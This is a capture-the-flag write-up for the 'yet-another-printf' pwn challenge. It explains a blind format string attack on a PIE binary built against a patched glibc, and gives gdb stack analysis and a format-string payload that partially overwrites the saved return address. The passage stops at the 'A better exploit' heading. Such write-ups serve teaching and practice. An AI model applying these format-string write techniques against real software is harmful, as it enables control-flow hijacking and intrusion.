



# Writeup for yet-another-printf

| Category        | Author         | Points   | Solves (junior) | Difficulty rating |
| -------------   | -------------  | ------   | ------          |  ----- |
| pwn          | lion           | 500      | 1               | Medium |

## Preface

I did not solve this challenge during the ctf. I got quite close but in the end my exploit was not reliable enough.
I do however want to showcase this challenge since it is pretty awesome in my opinion. We are exploiting a format
string vulnerability without any output on an ASLR+PIE enabled binary with a modified fprintf behavior.

## Overview

The description of the challenge reads `Check out this new cool formatter I made! So useful!`. We are essentially
provided with an ELF binary and corresponding source code, a python wrapper that executes it and a patch for glibc.
Lets look at all three of them in detail

## The Wrapper

Lets take a top down approach and look at the wrapper first. It is called `run.py` and located in `deploy/`

```python
import subprocess


def run_code(code: bytes) -> bool:
    rv = subprocess.run(["./yap"], input=code, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, env={})

    return rv.returncode == 0


def main():
    print("Welcome to the advanced printf testing service!")
    code = input("Please give me your format to test:")[:4096].strip().encode('ASCII')

    n = 5
    for i in range(n):
        if run_code(code):
            print(f"Attempt {i+1}/{n}: SUCCESS")
        else:
            print(f"Attempt {i+1}/{n}: FAILED")
            exit(1)

    print("Congratulations!")
    with open("flag.txt") as fin:
        print(fin.read())


if __name__ == '__main__':
    main()
```

We are allowed to enter an input of maximum 4096 characters. Then, the `run_code` function
is executed 5 times in succession. It runs the target binary with our input while sending
stdout and stderr to /dev/null, *meaning that we do not get output from the binary*. The
function returns true if we exit with a status of 0. Looking back at main, we see that
we have to get the application to exit 5 times with status 0 to print the flag.

## The Binary

Lets first look at the source code of the challenge binary `yap.c` in `build/`

```c
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

#define INSIZE 0x1000
#define FOO 0xFF0

struct state {
    char code[INSIZE];
    void* reg0;
    void* reg1;
    void* reg2;
};
int main(int argc, char* argv[]) {
    struct state mystate;

    // let's setup some initial values 
    mystate.reg0 = &mystate.reg1;
    mystate.reg1 = &mystate.reg2;
    mystate.reg2 = mystate.code + FOO;

    setvbuf(stdout, NULL, _IONBF, 0);

    fgets(mystate.code, INSIZE, stdin);

    fprintf(stdout, mystate.code);

    exit(1);
}

void success() { exit(0); }

```

The struct type state holds a char array of `0x1000 = 4096` characters and also holds
three pointers. In main, we first initialize such a struct on the stack and then set the
pointers so that reg0 points to reg1 which points to reg2 which points to 
`mystate.code+FOO = mystate.code + 4080`. So reg2 points to the beginning of the 16 last bytes
of our input. We can observe that our input is read into `mystate.code`, there is no overflow here,
since we read exactly 4096 bytes. In the end, `fprintf` is utilized wrongly. The actual argument
usage should be `fprintf(file_descriptor,format,arguments)`. But in this scenario we control
the `format` parameter, so this is a format string attack. printf will just takes arguments
from the stack, as if we had supplied some (which we didn't, so printf will take whatever happens to
be next on the stack). After the `fprintf` call, `exit` is immediately called with a parameter of 1.
There also exists a function `success` which exits with code 0.

Lets look also look at the binary in its compiled form. We can extract the compilation flags from `build/Makefile` :
`CFLAGS=-Wl,-z,relro,-z,now -pie`. These result in

```console
user@lnx:~/cscg/pwn/yet-another-printf/deploy$ file yap 
yap: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7f83bf152166dc37885c84a3efe33d9348fbcfcf, for GNU/Linux 3.2.0, not stripped
user@lnx:~/cscg/pwn/yet-another-printf/deploy$ checksec yap
[*] '/home/usr/cscg/pwn/yet-another-printf/deploy/yap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
user@lnx:~/cscg/pwn/yet-another-printf/deploy$
```

So we deal with 8 byte addresses, libs are loaded dynamically into an randomized address space, while the stack and the
code of the original binary is also randomized. The stack is not executable but there is no stack cookie.

## The Patch

Lets finally look at `build/printf-patch.diff`. This is a patch for the glibc `fprintf` function located in `stdio-common/vfprintf-internal.c`

```diff
diff --git a/stdio-common/vfprintf-internal.c b/stdio-common/vfprintf-internal.c
index 3be92d4b6e..047d6cfa2d 100644
--- a/stdio-common/vfprintf-internal.c
+++ b/stdio-common/vfprintf-internal.c
@@ -905,35 +905,22 @@ static const uint8_t jump_table[] =
       break;								      \
 									      \
     LABEL (form_pointer):						      \
-      /* Generic pointer.  */						      \
+      /* Generic *padding*.  */						      \
       {									      \
 	const void *ptr;						      \
+        char pad_buf[256] = {0};                                    \
+        unsigned char nnn = 0;            \
 	if (fspec == NULL)						      \
 	  ptr = va_arg (ap, void *);					      \
 	else								      \
 	  ptr = args_value[fspec->data_arg].pa_pointer;			      \
 	if (ptr != NULL)						      \
-	  {								      \
-	    /* If the pointer is not NULL, write it as a %#x spec.  */	      \
-	    base = 16;							      \
-	    number.word = (unsigned long int) ptr;			      \
-	    is_negative = 0;						      \
-	    alt = 1;							      \
-	    group = 0;							      \
-	    spec = L_('x');						      \
-	    goto LABEL (number);					      \
-	  }								      \
-	else								      \
-	  {								      \
-	    /* Write "(nil)" for a nil pointer.  */			      \
-	    string = (CHAR_T *) L_("(nil)");				      \
-	    /* Make sure the full string "(nil)" is printed.  */	      \
-	    if (prec < 5)						      \
-	      prec = 5;							      \
-	    /* This is a wide string iff compiling wprintf.  */		      \
-	    is_long = sizeof (CHAR_T) > 1;				      \
-	    goto LABEL (print_string);					      \
-	  }								      \
+        {   \
+            nnn = *(const unsigned char*) ptr;            \
+        }   \
+        memset(pad_buf, 'X', nnn);                                  \
+        string = (CHAR_T*) pad_buf;                                 \
+        goto LABEL (print_string);                                  \
       }									      \
       /* NOTREACHED */							      \
 									      \
@@ -955,27 +942,27 @@ static const uint8_t jump_table[] =
       if (fspec == NULL)						      \
 	{								      \
 	  if (is_longlong)						      \
-	    *(long long int *) va_arg (ap, void *) = done;		      \
+	    **(long long int **) va_arg (ap, void *) = done;		      \
 	  else if (is_long_num)						      \
-	    *(long int *) va_arg (ap, void *) = done;			      \
+	    **(long int **) va_arg (ap, void *) = done;			      \
 	  else if (is_char)						      \
-	    *(char *) va_arg (ap, void *) = done;			      \
+	    **(char **) va_arg (ap, void *) = done;			      \
 	  else if (!is_short)						      \
-	    *(int *) va_arg (ap, void *) = done;			      \
+	    **(int **) va_arg (ap, void *) = done;			      \
 	  else								      \
-	    *(short int *) va_arg (ap, void *) = done;			      \
+	    **(short int **) va_arg (ap, void *) = done;			      \
 	}								      \
       else								      \
 	if (is_longlong)						      \
-	  *(long long int *) args_value[fspec->data_arg].pa_pointer = done;   \
+	  **(long long int **) args_value[fspec->data_arg].pa_pointer = done;   \
 	else if (is_long_num)						      \
-	  *(long int *) args_value[fspec->data_arg].pa_pointer = done;	      \
+	  **(long int **) args_value[fspec->data_arg].pa_pointer = done;	      \
 	else if (is_char)						      \
-	  *(char *) args_value[fspec->data_arg].pa_pointer = done;	      \
+	  **(char **) args_value[fspec->data_arg].pa_pointer = done;	      \
 	else if (!is_short)						      \
-	  *(int *) args_value[fspec->data_arg].pa_pointer = done;	      \
+	  **(int **) args_value[fspec->data_arg].pa_pointer = done;	      \
 	else								      \
-	  *(short int *) args_value[fspec->data_arg].pa_pointer = done;	      \
+	  **(short int **) args_value[fspec->data_arg].pa_pointer = done;      \
       break;								      \
 									      \
     LABEL (form_strerror):						      \
```

We observe two major functionalities patched here. First of all, the patch
alters the behavior of the `%p` modifier, which should print the address held
by a pointer. In this case, the complete functionality is replaced with
ignoring if the value is null pointer, interpreting it as a pointer to
an unsigned char and following it to read its value. Since it interprets
the target value as an unsigned char, we get the value of the last byte
stored at that 8 byte target value, because of little endian encoding where
the last byte comes first in memory. After reading the value, the function
fills a buffer of size 256 chars (just enough to fit all byte values) with
that many `"X"` chars and prints the buffer. So for example consider:

```c
long val = 0x1122334455667788;
long* ptr = &val;

printf("%p",ptr);
```

The program with the patched glibc would output `0x88 = 136` times the character `"X"`.

The second functionality patched is concerned with the `%n` formatter. We can deduce this
by looking at the surrounding code of the patched snippet, where we find a comment stating
`"answer the number of chars written"`. One can see that normal pointer expressions are changed
to double pointer ones. Normally, `%n` writes the number of bytes printed so far in the corresponding
printf call to the memory location pointed to by the next argument. In this patched version, we follow
the pointer two times, perfomring two derefs. So
```c
int val = 0x1122334455667788;
int* ptr = &val;
int** ptr1 = &ptr;

printf("123%n",ptr1);
```

would result in `val = 3`.

## Assessing the situation

We have an obvious format string vulnerability but no output. Our goal is to redirect
the control flow to the success function. ASLR and PIE is enabled, so we have to somehow
predict the address of success. The exploit hast to succeed 5 times in succession, so stability
is a concern here. The modified behavior could help in this blind situation.

## Setup

I always like to ensure a debugging setup that is close to the remote environment.
One Important thing to note is that environment variables influence stack offsets.
Luckily, the challenge binary is run with 
```python
rv = subprocess.run(["./yap"], input=code, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, env={})
```
``env={}`` leads to the program being run without any env vars set. This leads to the stack offsets being much
more reliable.

Also, I want to run gdb on the same operating system version, so we are going to run gdb in the docker container.
Lets create a gdb command file that will setup some simple things:

```
file ./yap
unset environment
break fprintf
```

thats it. I've modified the Dockerfile so it installs gdb and pwntools and adds this
file to the workdir. Inside the container we can then run gdb -x <file> to start
debugging the binary as it would run on remote.

## Stack layout

Lets begin by looking at how the binary works in assembly. Since the `code` buffer is 4096 bytes big, lets just fill it up completely. Since we now that `reg2` is pointing to the last 16 bytes of our supplied buffer, we can verify this observation by using 4096-16 A's and 16 B's. Lets run the program (with the gdb file), break at the beginning of printf and examine the stack:



Okay, there is a lot going on here. Lets go through it step by step. In the top half one can see the buffer I just given as the first argument to fprintf, ending with 16 B's. Beneath that you can see that we hit the beginning of fprintf. Lets skip the registers for now. In the disassembly frame we see we indeed are at the first instruction of the fprintf function. Now for the most important detail: The stack. We can see that the top most item on the stack currently is the saved instruction pointer where we return to when fprintf finishes. It is logical, that it points into `main`. Underneath that, we can see the beginning of our code buffer.

Since we only see the beginning of our buffer, lets print more of the stack. Our buffer is 4096 bytes big, meaning there should be `4096 / 8 = 512`. Lets print a bit more stack items so we also see what comes before it:



The `"509 skipped"` means that the A's repeat until we finally reach our last 16 B's beginning at stack address `0x7fffffffed20`. So far so good. What about
the registers? They're lying on the stack directly after! And we can even verify our assumption: `reg0` is at stack address `0x7fffffffed30`. It points to `reg1` at stack offset `38`, which in turn points to `reg2` at offset `40` which itself points to stack offset `20`, meaning the last 16 bytes at `0x7fffffffed20`! Perfect.

## Exploiting


### The goal

Lets first define our goal. We just have to redirect execution flow to the `success` function, so we don't need a shell. The easiest and most obvious way would be to gain control of the instruction pointer, `rip`. I am very sure there are some other fancy methods and a challenge, especially a binary exploitation one, can often be solved in many ways but this is the approach I went for.

### The method

A nice way to do this is to overwrite the saved return address that we saw earlier when looking at the stack layout. If we manage to put the address of `success` in there, the `ret` instruction will pop it from the stack right into `rip` and we would jump to `success` and thus call `exit(0)`.

With buffer overflows, this is a common technique. If the buffer to overflow is a local variable on the stack, the return address is placed first in memory and because of the stack growing downwards, the buffer is then placed at a lower memory location but grows upwards, enabling it to overflow and change the saved return pointer.

Since `fgets` with a safe size is used, we cant overflow the buffer here. But remember `%n`? We can write to memory with that. So we might have a chance if
we find out where the saved return pointer is. (remember, ASLR + PIE is enabled, thus the stack location is randomized)

### finding the return pointer

Since we want to overwrite it, it would be nice to somehow get its address. For a start, it is always useful to have pointer to the stack on the
stack itself, as you will notice throughout this writeup. Conveniently, there are already three pointers to the stack, namely `reg0`,`reg1` and `reg2`.
Lets look at how far the address saved in `reg2` and the stack address of the saved return pointer are apart. Looking at the screenshot above, we can
conclude that the distance is `(reg2)0x7fffffffed20 - (ret ptr addr)0x7fffffffdd18 = 0x1008 = 4104 Bytes`. While the stack addresses may be random,
the offset is static because the placement of local variables is deterministic here. For the exploit, we abuse exactly that property.

So if we could somehow subtract 4104 from `reg2`, we would have a pointer on the stack pointing to the saved `rip`. We could then use `%n` to write to
the return pointer. But how do we actually subtract from and unknown address without any leaks whatsoever? Turns out it is possible with the primitives
given by the modified `fprintf` but I just didn't figure it out during the ctf. Lets look at my solution first.

## An unreliable exploit

I began by looking how the addresses of interest changed during executions. GDB disables randomization by default, but we can use a file with the contents
```
file yap
unset environment
set disable-randomization off
break fprintf
```
This enabled me to examine the addresses of `reg0` and the saved `rip` repeatedly. Lets have a look at some samples:

|val of reg2|addr of saved rip|
|-|-|
|0x7ffde38537a0|0x7ffde3852798|
|0x7ffc3856bb00|0x7ffc3856aaf8|
|0x7fff81e63938|0x7fff81e64940|
|0x7ffd2c674640|0x7ffd2c673638|

We notice something here. Although randomized, only the last two bytes are different between each pair of `reg2` and the saved `rip`. If we would
sample even more we would also notice that the last byte of each address is always a multiple of 16. This is because by default in the x86_64 architecture,
stack addresses are 16 byte aligned.

Since we cannot (we can actually but I could not) subtract from `reg2`, lets just guess these two last bytes! We would need to guess a whole byte and on
top of that one of `256 / 16 = 16` values, yielding a total success probability of `1/256*1/16` which is approximately `0.0244 %`. How would we do this?

We first want to write to `reg2`. Because of the modified double pointer behavior of `%n`, we have to give `reg0` as an argument to let fprintf write to the value of `reg2`. To "guess" the two byte difference, we could simply use a static value. Lets use the one that
we got from the randomization disabled gdb session, so `0xdd18`. How do we get `%n` to write this value? Easy! Just print `0xdd18 = 56600 chars`. Luckily,
stdout points to `/dev/null` so we cant print tons of characters very quickly.

Next we need to know at which offset `reg0` is on the stack. We can find out by using `%X$lx` where `X` is the stack offset of the argument we want to print and `lx` is a formatter for printing a long, meaning 8 bytes in this context, in hexadecimal form. After some playing around we find that `reg0` is at offset 519, so fprintf's 519th argument. (generally,`%<index>$<formatter>` can be used to specify a direct argument index instead of taking the next argument)

Lets try putting it all together. We can write 56600 chars with `%56600c` which will interpret the next argument of fprintf as character and print it padded with spaces to a total length of 56600. Our payload looks like this:

```python
payload =  "%56600c" # get the correct value in %n
payload += "%519$hn" # write to reg0. Use hn instead of n to write only two bytes instead of 4.
```

This time we have to use `r > /dev/null` in gdb to run the program with redirected output to `/dev/null` additionally to using the run file. If we break at the end of fprintf, before the `ret` and observe the stack we see that `reg2` now points to the saved `rip` 🎉



Where do we go from here? We did not redirect code execution yet. But we have a pointer at a location that we can access that points to the saved return pointer. We now just need to overwrite it. But what do we write? Lets sample addresses from both the saved `rip` and `success` functions.

|addr of saved ret ptr|addr of success|
|-|-|
|0x55dea8f4c267|0x55dea8f4c271|
|0x55ef61d7e267|0x55ef61d7e271|
|0x559b15fbd267|0x559b15fbd271|
|0x56453a527267|0x56453a527271|

Great! We see that only the last byte differs. And this offset is static! So we always want to overwrite the last byte with `0x71`. The char counter in fprintf is currently at `0xdd18`. Lucky for us, since we can just print another `0x71 - 0x18 = 0x59 = ` bytes to set the last byte of the fprintf char count
to the required value. We then utilize `%hhn` to only write one byte. This time we have to select `reg1` at stack offset 520 to not write to reg2, but to the saved return pointer itself. Lets assemble the whole exploit string:

```python
payload =  "%56600c"  # get the correct value in %n
payload += "%519$hn"  # write to reg0. Use hn instead of n to write only two bytes instead of 4.
payload += "%89c"     # set char counter & 0xFF to correct value
payload += "%520$hhn" # overwrite last byte of saved rip
```

Lets again use `r > /dev/null`, enter the full exploit string and continue. We are still in the non randomized gdb session.

```
<....>
Continuing.
[Inferior 1 (process 156) exited normally]
pwndbg> print $_exitcode
$1 = 0
pwndbg> 
```

We did redirect code execution! Sadly this was not enough for the challenge since the exploit has to work 5 times in succession and given the low probability of correctly hitting the stack address of the saved return pointer, I was not able to get a 5/5 during the ctf.

## A better exploit
